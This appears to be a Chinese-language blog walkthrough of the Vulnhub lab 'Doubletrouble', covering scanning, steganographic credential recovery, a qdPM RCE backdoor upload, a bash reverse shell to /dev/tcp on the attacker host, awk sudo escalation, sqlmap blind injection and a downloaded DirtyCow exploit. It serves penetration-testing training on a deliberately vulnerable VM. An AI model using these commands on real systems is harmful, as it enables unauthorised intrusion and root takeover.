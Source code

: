 ```yaml
---
layout: post
title: "Doubletrouble walkthrough"
date: 2021-10-07
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机         | IP                |
| -------------- | ----------------- |
| 本机（Win10）  | `192.168.174.1`   |
| Kali           | `192.168.174.128` |
| Doubletrouble  | `192.168.174.137` |
| Doubletrouble1 | `192.168.174.138` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.174.137`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.174.137
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 00:41 EDT
Nmap scan report for 192.168.174.137
Host is up (0.00072s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA)
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA)
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: qdPM | Login
```

根据结果我们访问网页，看到使用的是 **qdPM 9.1** CMS ，并且搜索 exploit 得知该版本存在RCE漏洞，不过前提是需要知道账户名和密码，那么我们就需要在寻找账户和密码上下功夫了。

通过目录枚举我们在 `/secret`目录下发现一个图像文件：`doubletrouble.jpg`，经过多方测试，使用 *stegseek* 工具提取出图像文件中的隐藏信息，得到账户名和密码：`otisrush@localhost.com:otis666`。

```shell
┌──(root💀kali)-[~]
└─# cat doubletrouble.jpg.out
otisrush@localhost.com
otis666 
```

使用该用户名和密码，再结合RCE exploit 脚本，成功上传shell。

### Getshell

```shell
┌──(root💀kali)-[~]
└─# python2.7 47954.py -url http://192.168.174.137/ -u otisrush@localhost.com -p otis666
Backdoor uploaded at - > http://192.168.174.137//uploads/users/?cmd=whoami
```

访问该链接：`http://192.168.174.137//uploads/users/382331-backdoor.php?cmd=/bin/bash%20-c%20%27/bin/bash%20-i%20%3E&%20/dev/tcp/192.168.174.128/5566%200%3E&1%27` 即可成功反向 shell。

查看 `sudo` 权限后可以知道我们可以进行 `awk` 提权：

```shell
www-data@doubletrouble:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on doubletrouble:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on doubletrouble:
    (ALL : ALL) NOPASSWD: /usr/bin/awk
```

### 提权

```shell
www-data@doubletrouble:/home$  awk 'BEGIN {system("/bin/sh")}'
 awk 'BEGIN {system("/bin/sh")}'
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
exit
www-data@doubletrouble:/home$ sudo awk 'BEGIN {system("/bin/sh")}'
sudo awk 'BEGIN {system("/bin/sh")}'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
doubletrouble.ova
```

提权后看到 `/root` 目录下存在 `doubletrouble.ova` 镜像文件，将它下载下来并使用 Vmware 导入，接下来我们就需要对该虚拟机（Doubletrouble1）进行渗透测试了。（搁这套娃，不愧是 double 🍖）

### Doubletrouble1

#### 扫描端口和版本信息

`nmap -A -p- 192.168.174.138`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.174.138
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 03:03 EDT
Nmap scan report for 192.168.174.138
Host is up (0.00049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u4 (protocol 2.0)
| ssh-hostkey:
|   1024 e8:4f:84:fc:7a:20:37:8b:2b:f3:14:a9:54:9e:b7:0f (DSA)
|   2048 0c:10:50:f5:a2:d8:74:f1:94:c5:60:d7:1a:78:a4:e6 (RSA)
|_  256 05:03:95:76:0c:7f:ac:db:b2:99:13:7e:9c:26:ca:d1 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
```

结果差不多，不过网页是一个登录框了。

![1]({{ '/doubletrouble/1.png' | prepend: site.url }})

进行简单sql注入时发现无论输入什么都没有返回信息，猜想可能是时间盲注，那么就用 *sqlmap* 来跑一下吧，最终我们得到两个用户名和密码。

```shell
Database: doubletrouble
Table: users
[2 entries]
+----------+----------+
| username | password |
+----------+----------+
| montreux | GfsZxc1  |
| clapton  | ZubZub99 |
+----------+----------+
```

其中 `clapton`是登录 ssh 的账户。

#### Getshell

使用 `clapton:ZubZub99`  用户名和密码进行ssh登录后，信息收集发现系统liinux 内核版本是：**3.2**，因此存在脏牛提权。此外查看 `/home/clapton/user.txt` 文件得到第一个 flag：

```shell
clapton@doubletrouble:~$ cat user.txt
6CEA7A737C7C651F6DA7669109B5FB52
```

#### 提权

靶机上进行代码编译：

```shell
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty root
```

最后切换到 `firefart`，即可具有 *root* 权限，查看 `/root/root.txt`文件即可得到最后一个 flag：

```shell
firefart@doubletrouble:~# cat /root/root.txt
1B8EEA89EA92CECB931E3CC25AA8DE21
```

### 总结

1. [Stegseek](https://github.com/RickdeJager/stegseek) 工具的作用是从文件中提取隐藏数据，可用于在没有密码的情况下提取 `steghide `元数据，可用于测试文件是否包含 `steghide `数据。
2. 脏牛提权时需要在靶机上进行编译。

